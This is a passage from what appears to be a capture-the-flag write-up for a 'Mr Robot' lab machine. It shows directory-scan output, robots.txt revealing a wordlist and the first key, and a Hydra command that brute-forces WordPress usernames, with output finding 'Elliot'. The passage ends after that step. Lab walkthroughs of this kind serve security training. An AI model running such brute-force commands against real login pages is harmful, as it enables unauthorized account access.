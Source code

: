 ### dirb:

```
---- Scanning URL: http://10.10.82.148/ ----
==> DIRECTORY: http://10.10.82.148/0/                  
==> DIRECTORY: http://10.10.82.148/admin/                    
==> DIRECTORY: http://10.10.82.148/blog/                  
==> DIRECTORY: http://10.10.82.148/css/                 
==> DIRECTORY: http://10.10.82.148/images/                
+ http://10.10.82.148/intro (CODE:200|SIZE:516314)              
==> DIRECTORY: http://10.10.82.148/js/                    
+ http://10.10.82.148/login (CODE:302|SIZE:0)               
+ http://10.10.82.148/phpmyadmin (CODE:403|SIZE:94)          
+ http://10.10.82.148/readme (CODE:200 SIZE:64)                                      
+ http://10.10.82.148/rss (CODE:301|SIZE:0)                         
+ http://10.10.82.148/sitemap (CODE:200|SIZE:0)                                
+ http://10.10.82.148/xmlrpc (CODE:405|SIZE:42)  
```
The dir discovery was very slow with `gobuster` and `ffuf` for some reason...

Anyway...Cool website!

Lets visit `robots.txt` 

(lmao, robots...got it?)

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Now we got the first key at:

```
http://10.10.82.148/key-1-of-3.txt

```
There are some funny stuff in other directories but the next useful thing here is `fsocity.dic` 

we download it and as expected its a dictionary (expect bruteforce)

I thought It would be used at `admin` but this page is a redirect loop...when visiting `/0` I noticed there is a `wordpress blog` so I tried `wp-admin` instead

Bingo! Bruteforce time! Fire up Hydra!

As the message error is different from password error we can bruteforce both with hydra

For the username

```
hydra -L /home/nair0lf32/Desktop/Stuff/THM/mrRobot/fsocity.dic -p test 10.10.82.148  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -V

[ATTEMPT] target 10.10.82.148 - login "net" - pass "test" - 30 of 858235 [child 13] (0/0)
[80][http-post-form] host: 10.10.82.148   login: Elliot   password: test
[ATTEMPT] target 10.10.82.148 - login "push" - pass "test" - 31 of 858235 [child 14] (0/0)
[ATTEMPT] target 10.10.82.148 - login "category" - pass "test" - 32 of 858235 [child 15] (0/0)
[ATTEMPT] target 10.10.82.148 - login "Alderson" - pass "test" - 33 of 858235 [child 2] (0/0)

...

```
